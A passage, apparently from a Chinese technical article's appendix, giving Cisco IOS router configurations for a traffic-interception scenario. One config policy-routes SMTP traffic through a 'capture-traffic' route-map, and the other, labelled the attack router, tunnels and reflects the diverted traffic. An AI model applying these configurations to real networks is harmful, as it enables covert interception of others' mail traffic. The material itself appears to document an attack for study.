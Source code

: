      ip address 192.168.1.1 255.255.255.0
     ip policy route-map capture-traffic
     half-duplex
    !
    ip classless
    no ip http server
    no ip pim bidir-enable
    !
    access-list 101 permit tcp any any eq smtp
    access-list 101 permit tcp any eq smtp any
    no cdp run
    route-map capture-traffic permit 10
     match ip address 101
     set ip next-hop 192.168.5.2
    !
    line con 0
    line aux 0
    line vty 0 4
     privilege level 15
     login
    !
    end
    
    ```
2.  **附录B -场景1中间路由器完整配置（Attack Router）**
    
    ```
    !
    version 12.2
    service timestamps debug uptime
    service timestamps log uptime
    no service password-encryption
    !
    hostname Attacker
    !
    logging buffered 4096 debugging
    no logging console
    enable secret 5 $1$cjVg$HSwnoTugnkpJb2ZrZTqsQ0
    !
    memory-size iomem 10
    ip subnet-zero
    !
    interface Tunnel0
     ip address 192.168.5.2 255.255.255.0
     ip policy route-map reflect
     tunnel source Ethernet0/1
     tunnel destination 192.168.1.1
    !
    interface Ethernet0/0
     ip address 192.168.3.1 255.255.255.0
     half-duplex
    !
    interface Ethernet0/1
     ip address 192.168.1.2 255.255.255.0
     half-duplex
    !
    ip classless
    no ip http server
    no ip pim bidir-enable
    !
    access-list 100 permit ip any any
    no cdp run
    route-map reflect permit 10
     match ip address 100